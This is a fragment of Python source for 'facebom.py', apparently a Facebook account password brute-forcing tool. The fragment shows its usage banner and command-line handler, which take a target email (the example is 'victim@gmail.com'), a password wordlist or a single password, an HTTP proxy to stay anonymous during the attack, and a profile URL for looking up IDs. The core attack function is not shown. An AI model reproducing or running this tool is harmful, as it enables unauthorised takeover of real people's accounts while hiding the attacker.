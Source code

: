      | python facebom.py -t victim@gmail.com -s 1234567
     |-------- 
     | python facebom.py -g https://www.facebook.com/alanwalker97 
     |-------- 
""")
def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="taremail",type="string",
      help="Specify Target Email ")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wlst",type="string",
      help="Specify Wordlist File ")
   parse.add_option("-s","--singe","--S","--SINGLE",dest="single",type="string",
      help="Specify Single Password To Check it")
   parse.add_option("-p","-P","--proxy","--PROXY",dest="proxy",type="string",
                        help="Specify HTTP/S Proxy To Be Anonymous When Attack Enable")
   parse.add_option("-g","-G","--getid","--GETID",dest="url",type="string",
                        help="Specify TARGET FACEBOOK PROFILE URL")
   (options,args) = parse.parse_args()
   if options.taremail !=None and options.wlst !=None and options.proxy !=None:
       username = options.taremail
       wordlist = options.wlst
       proxy = options.proxy
       FBOM(username, wordlist, proxy=proxy)
   elif options.taremail !=None and options.single !=None and options.proxy !=None:
       username = options.taremail
       passwd = options.single
       proxy = options.proxy
       FBOM(username,"",passwd=passwd,proxy=proxy)
   elif options.taremail !=None and options.single !=None:
       username = options.taremail
       passwd = options.single
       FBOM(username,"",proxy=None,passwd=passwd)

   elif options.taremail !=None and options.wlst !=None:
       username = options.taremail
       wordlist = options.wlst
       FBOM(username, wordlist)  
   elif options.url !=None:
       url = options.url
       ID(url)
   else:
       print(parse.usage)
       exit(1)

if __name__=='__main__':
  Main()

##############################################################
#####################                #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by DENNIS O. SANGOAN
#Have a nice day :)
#GoodBye
